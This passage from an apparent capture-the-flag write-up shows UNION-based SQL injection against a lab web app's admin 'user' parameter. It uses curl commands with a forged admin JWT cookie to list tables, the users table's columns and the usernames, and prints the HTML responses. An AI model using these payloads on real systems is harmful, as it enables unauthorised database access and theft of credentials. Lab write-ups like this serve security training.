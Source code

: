 Database: `marketplace`

**Tables identification**

~~~
$ curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://10.10.4.48/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(table_name),3,4 FROM information_schema.tables WHERE table_schema='marketplace'"` | tail 

      <h1 style="text-align: center">User 1</h1>
      <div>
          User items,messages,users <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
  </body>
</html>
~~~

Tables: `items`, `messages`, `users`

### Users table

**Users table columns**

~~~
$ curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://10.10.4.48/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(column_name),3,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='users'"` | tail

      <h1 style="text-align: center">User 1</h1>
      <div>
          User id,isAdministrator,password,username <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
  </body>
</html>
~~~

Users table columns:

* id
* isAdministrator
* password
* username

**Dump users table**

Usernames:

~~~
└─$ curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://10.10.4.48/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(username),3,4 FROM marketplace.users"` | tail

      <h1 style="text-align: center">User 1</h1>
      <div>
          User jake,michael,system,test <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
  </body>
~~~